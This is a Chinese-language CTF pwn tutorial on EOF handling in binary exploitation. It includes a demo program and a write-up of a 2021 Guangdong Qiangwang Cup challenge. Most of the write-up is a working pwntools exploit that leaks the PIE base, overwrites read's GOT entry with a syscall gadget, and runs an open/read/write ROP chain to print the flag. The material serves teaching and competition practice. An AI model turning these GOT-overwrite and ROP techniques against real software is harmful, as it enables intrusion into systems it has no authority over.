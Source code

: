 

# 二进制安全 - EOF 利用 - 先知社区

二进制安全 - EOF 利用

- - -

# EOF 利用

## 背景知识

EOF 代表 End of File，是一个在计算机科学中常见的术语，用于指示文件的结束。EOF 信号是在文件或输入流中的数据结束时发出的信号。当程序读取文件或输入流时，它会在遇到文件的末尾时收到 EOF 信号，从而知道已经到达了文件的结束。  
EOF 信号的具体表示方式，可以根据不同的操作系统和编程语言而有所不同。

pwn 中的 EOF 有两种  
一种是 EOF 之后，还可以接着输入数据，但是只能本地用，无法远程。  
一种是直接关闭输入流，那么发送 EOF 之后，之后就无法向程序输入数据。

## eof 发送后继续输入

### demo

```bash
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) 
{
   char buf[24];
   while(1) 
    {
      if(read(0,buf,16)==0) 
      {
         break;
      }
   }
   read(0,buf,1000);
   return 0;
}
```

read 返回值：  
返回值为读取的字节数，如果到达文件末尾 (EOF)，则返回 0。  
如果出现错误，返回 -1，并设置 errno 变量以指示错误的类型  
这里我们输入正常的数据并不会跳出循环，而是会一直判断

[![](assets/1706957890-9c5f12aeffe2f1ae2b34e1ce6f0f62b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115253-8acc7d28-c17e-1.png)  
这里我们利用 stdin=PTY 指定标准输入连接到一个伪终端。  
这可以在模拟终端输入的环境中执行程序。  
然后我们输入 EOF 信号后

```bash
p = process("./pwn",stdin=PTY,raw=False)
p.send(chr(tty.CEOF))
```

这里 raw=False 是输入和输出不进行任何处理，字节直接传递

[![](assets/1706957890-bbc7a38347a49d6a1fec34a798026082.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115313-970ab000-c17e-1.png)  
可以发现确实跳出了循环

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *
import tty

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

def duan():
    gdb.attach(p)
    pause()

p = process("./pwn",stdin=PTY,raw=False)
p.send(chr(tty.CEOF))
p.clean()

p.interactive()
```

## eof 发送后结束输入

利用一个例题了来分析这种利用方法  
\[广东强网杯 2021 个人决赛\]server

### 思路

[![](assets/1706957890-1d76131b26a893334ba7704fb77bf087.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115347-ab27b6aa-c17e-1.png)

[![](assets/1706957890-9a4f5a83effe788caadda9f959acd050.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115353-ae7544a8-c17e-1.png)  
这里就是可以泄露出 password 的地址，但是因为后面 read 的返回值大于 0，所以就一直循环  
也可以让 read 返回 0，但是之后程序便无法运行，所以只能提前布置好 rop

```bash
ru('Username: ')
sl('r00t')
ru('Password: ')
sl('k')
ru('[*] Gift: ')
pie_base = int(p.recv(14), 16)-0x4090
leak('pie_base ',pie_base)
```

首先先去泄露 pie，然后利用下面这个 magicgadget 去修改 read 的 got 表变成 syscall

[![](assets/1706957890-95f06898d4df13445a3097c53c0195b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115416-bc71a344-c17e-1.png)

[![](assets/1706957890-64f72ccde7584550ab603868739b595a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115422-c001bb66-c17e-1.png)  
这里就是利用了 read 的 got 表去写 syscall

[![](assets/1706957890-8599a57ce9843b620ca5635591e9ee76.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115430-c496b820-c17e-1.png)  
然后最后执行就可以，不过貌似出了点小问题，没法打印 flag，不过也是学到了这个知识点和一个 magicgadget 的应用

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
        context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.anna.nssctf.cn',28819)
libc=ELF('./libc.so.6')

def duan():
    gdb.attach(p)
    pause()

sla(b'Username: ', b'r00t')
sla(b'Password: ', b'flag')
ru('[*] Gift: ')
pie_base = int(p.recv(14), 16)-0x4090
leak('pie_base ',pie_base)
#duan()

rdi = pie_base + 0x1613
ret = pie_base + 0x101a
rax = pie_base + 0x1239
rdx = pie_base + 0x123b
rsi_r15 = pie_base + 0x1611
magic = pie_base + 0x1232
flag = pie_base + 0x4090
buf = pie_base + 0x40A0

sl(str(0x500))
# read@got -> syscall
payload = b'a'*0x38 + p64(rdi) + p64(pie_base + 0x4040) + p64(rax) + p64(0x10) + p64(magic)
# open
payload += p64(rax) + p64(2) + p64(rsi_r15) + p64(0)*2 + p64(rdx) + p64(0) + p64(rdi) + p64(flag) + p64(pie_base + 0x4040)
# raed
payload += p64(rax) + p64(0) + p64(rsi_r15) + p64(buf)*2 + p64(rdx) + p64(0x50) + p64(rdi) + p64(3) + p64(pie_base + 0x4040)
# write
payload += p64(rax) + p64(1) + p64(rsi_r15) + p64(buf)*2 + p64(rdx) + p64(0x50) + p64(rdi) + p64(1) + p64(pie_base + 0x4040)
#sleep(0.2)
#duan()
sla(b'[IN] ', payload)
p.shutdown('send')

print(p.recv())
print(p.recv())

itr()
```
